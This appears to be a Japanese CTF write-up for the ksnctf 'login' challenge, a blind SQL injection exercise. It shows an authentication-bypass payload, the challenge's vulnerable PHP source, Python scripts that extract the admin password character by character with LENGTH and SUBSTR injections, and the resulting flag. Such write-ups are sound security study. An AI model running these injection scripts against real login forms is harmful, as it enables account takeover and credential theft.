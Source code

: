 ```yaml
--- 
title: "ksnctf login write-up" 
emoji: "📝" 
type: "tech" 
topics: ["ctf", "crypto"] 
published: true
--- 
```


みなさん、こんにちは。 cork（コルク）です。 
セキュリティの勉強としてctfをやっていますが、記録のためにwrite-upを書いていこうと思います。 

# login (120 points) 

## 概要 
有名な常設CTFである[ksnctf](https://ksnctf.sweetduet.info/)の[第6問](https://ksnctf.sweetduet.info/problem/6)の解説です。 
ネタバレするとBlind SQL Injectionの問題です。

## 問題 
以下のURLが与えられます。
[http://ctfq.u1tramarine.blue/q6/](http://ctfq.u1tramarine.blue/q6/)
[https://ctfq.u1tramarine.blue/q6/](https://ctfq.u1tramarine.blue/q6/)

## 解説
まず、リンクにアクセスしてみるとログイン画面が出るとともに`First, login as "admin".`と書かれているのでSQLインジェクションかなと思い、とりあえずログインしてみます。

![](https://storage.googleapis.com/zenn-user-upload/b7e737addfbc-20211210.png =250x)*login page* 

**ID**に"admin"、**Pass**に"1' or '1' = '1';--"を入力してログインしたところ以下のページが表示されました。

```
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

どうやらログインするだけではフラグは取れず、adminのパスワードがフラグになっておりそれを見つけないといけないそうです。

とりあえず、パスワードを総当たりで探そうと思います。
SQLの知識は学校で習った程度だったので、LIKEを用いて1文字ずつ探したらいけそうかなと思ったのでpythonでプログラムを組んで総当たりで探しました。

上記のページを見ている感じはPOSTが使われてそうなので、pythonのrequestsを使ってidとpassを送信して、`Congratulations!`を含む文字列が返されたかを判定することでログインに成功したかを判定しています。
また、パスワードの候補となる文字についてはASCIIコードなどを使うのが面倒だったので、`printable characters python`とGoogleで検索して出てくる[このページ](https://stackoverflow.com/questions/5891453/how-do-i-get-a-list-of-all-the-ascii-characters-using-python)に書いてる文字列にちょっと変更を加えたものを使用しています。（友達に教えてもらいました。）

※SQLおよびpythonに対しての知識がほぼ皆無に等しい状況でコードを書いたので、クソコードになっています。**参考にしないでください**。

```python
import requests

def is_correct_pw(pw:str):
    url = "http://ctfq.u1tramarine.blue/q6/"
    login = {
        'id': "admin",
        'pass': f"' LIKE '{pw}%'--"
    }
    r = requests.post(url, data=login)
    return ('Congratulations!' in r.text)

password = ""
for i in range(30):
    for c in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$&()*+,-./:;<=>?@[\]^_`{|}~":
        if(is_correct_pw(password + c)):
            password += c
            break
print(password)
```

見ていただいたようにSQL文がかなりぐちゃぐちゃだったため、全然特定ができませんでした。

そこでとりあえずSQLについてしっかりと理解した上でパスワードの長さだけでも解りたいということでコードを書きました。




```python
import requests

# パスワードの長さの推測
password_length  = 1
for i in range(100):
    url = "http://ctfq.u1tramarine.blue/q6/"
    sql = f"admin' AND (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {i} --"
    login = {
        'id': sql,
        'pass': "aaa"
    }
    r = requests.post(url, data=login)
    if('Congratulations!' in r.text):
        print("length of admin's password is",i)
        password_length = i
        break
```

この結果、パスワードの長さが21であることがわかりました。
次にどうすればパスワードがわかるかなと思って色々調べているとSQLに**SUBSTR**というものがあることがわかりました。
これは文字列から任意の長さの文字列を切り出せるものでSUBSTRを用いてパスワードを1文字ずつ切り出して、それがどの文字と一致するかを調べるコードを書きました。

```python
import requests

# パスワードの長さの推測
password_length  = 1
for i in range(100):
    url = "http://ctfq.u1tramarine.blue/q6/"
    sql = f"admin' AND (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {i} --"
    login = {
        'id': sql,
        'pass': "aaa"
    }
    r = requests.post(url, data=login)
    if('Congratulations!' in r.text):
        print("length of admin's password is",i)
        password_length = i
        break

# password全探索の前処理
def is_correct_pw(i:int,pw:str)->bool:
    url = "http://ctfq.u1tramarine.blue/q6/"
    sql = f"admin' AND SUBSTR((SELECT pass FROM user WHERE id = 'admin'), {i}, 1) = '{pw}' --"
    login = {
        'id': sql,
        'pass': ""
    }
    r = requests.post(url, data=login)
    return ('Congratulations!' in r.text)

# passwordの全探索
password = ""
for i in range(1,password_length + 1):
    for c in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$&()*+,-./:;<=>?@[\]^_`{|}~":
        if(is_correct_pw(i,c)): 
           password += c
           print(password)
           break
print("admin's password is",password)
```

この結果、FLAGがゲットできました。
```
FLAG_KpWa4ji3uZk6TrPK
```
